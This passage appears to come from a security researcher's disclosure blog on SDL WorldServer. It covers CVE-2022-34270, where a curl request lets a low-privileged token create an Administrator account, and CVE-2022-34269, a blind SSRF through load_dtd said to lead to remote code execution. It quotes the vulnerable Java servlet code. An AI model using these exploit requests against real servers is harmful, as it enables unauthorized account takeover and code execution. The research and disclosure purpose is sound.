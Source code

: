 Shell:

![23](https://www.triskelelabs.com/hs-fs/hubfs/23.png?width=808&height=227&name=23.png)

### **Privilege Escalation Via UserWSUserManager - CVE- 2022-34270**

The same Apache Axis service we used earlier to create a new user using the authentication bypass via the system account seems to be vulnerable to a privilege escalation issue as well since regular users can use the same endpoint to create a new user, including users with the Administrator role.

To verify this, we created a new ‘Translator’ user account:

![24](https://www.triskelelabs.com/hs-fs/hubfs/24.png?width=631&height=523&name=24.png)

After logging in, we obtained the token:

![25](https://www.triskelelabs.com/hs-fs/hubfs/25.png?width=776&height=456&name=25.png)

And used it to create a new admin user (Apache Axis services can usually be called via both GET and POST, as demonstrated here):

```
curl "http://10.0.0.142:8080/ws-legacy/services/UserWSUserManager?method=createUser_&username=newuser2&password=wsadmin&firstName=triskele&lastName=admin&userType=Administrator&token=164166319"
```

Lo and behold, our fresh admin user:

![27](https://www.triskelelabs.com/hs-fs/hubfs/27.png?width=614&height=242&name=27.png)

From here, RCE is trivial using any of the other techniques described in this blog post.

### **Authenticated Blind SSRF to RCE - CVE-2022-34269**

The  com.idiominc.ws.servlet.LoadDTD  class, found at  /ws-legacy/load\_dtd allows users with access to the application, including low-privileged users, to perform a blind Server-Side Request Forgery using the system\_id parameter.

The following curl command can be used to perform a GET request to any host, internal or external:

```
curl "http://10.0.0.142:8080/ws-legacy/load_dtd?system_id=http://HOST&token=TOKENHERE" -v
```

This can be used to send a request to the Apache Axis AdminService listening on the local host as this service doesn’t require authentication when called locally. Using [the techniques described in https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to- rce,](https://www.ambionics.io/blog/oracle-peoplesoft-xxe-to-rce) this can be used to upload a new JSP file, resulting in code execution on the host as a low-privilege user.

The relevant WorldServer code is as follows:

```
public class LoadDTD extends WSHttpServlet {
  public void handle(PageContext pc) throws IOException, StorageException, CompleteTransactionException {
    String idDecl;
    XHiveResolver.initializeResolver(pc.getWSContext());
    String publicID = pc.getParameter("public_id");
    String systemID = pc.getParameter("system_id");
    if (publicID != null) {
      idDecl = "PUBLIC '" + publicID + "' '" + ((systemID == null) ? "'" : (systemID + "'"));
    } else {
      idDecl = "SYSTEM '" + ((systemID == null) ? "'" : (systemID + "'"));
    }
    String doc = "<?xml version='1.0' encoding='UTF-8' standalone='no'?>\n<!DOCTYPE foo " + idDecl + ">\n<foo/>";
    HttpServletResponse response = pc.getResponse();
```